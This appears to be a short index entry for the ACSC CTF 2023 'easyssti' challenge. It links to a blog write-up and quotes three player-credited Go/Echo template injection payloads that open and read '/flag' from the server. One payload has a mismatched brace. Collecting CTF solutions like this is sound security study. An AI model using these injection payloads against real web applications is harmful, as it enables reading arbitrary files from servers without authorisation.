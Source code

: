 ---
title: "ACSC CTF 2023 - easyssti"
description: "Example:



{{ $x := .Echo.Filesystem.Open \"/flag\" }} {{ $x.Seek 1 0 }} {{ .Stream 200 \"text/plain\" $x }} (by @nyancat)
{{ (.Echo.Filesystem.Open \"/flag\").Read (.Get \"template\") }} {{ .Get \"template\" }} (by @maple3142)
{{ $f := .Echo.Filesystem.Open \"/flag\" }} {{ $buf := .Get \"template\" }} {{ $f.Read $buf }} {{ $buf } (by @Ocean)



"
external_category: "Miscellaneous"
---[Visit Website](https://blog.hamayanhamayan.com/entry/2023/02/26/124239#web-easySSTI)


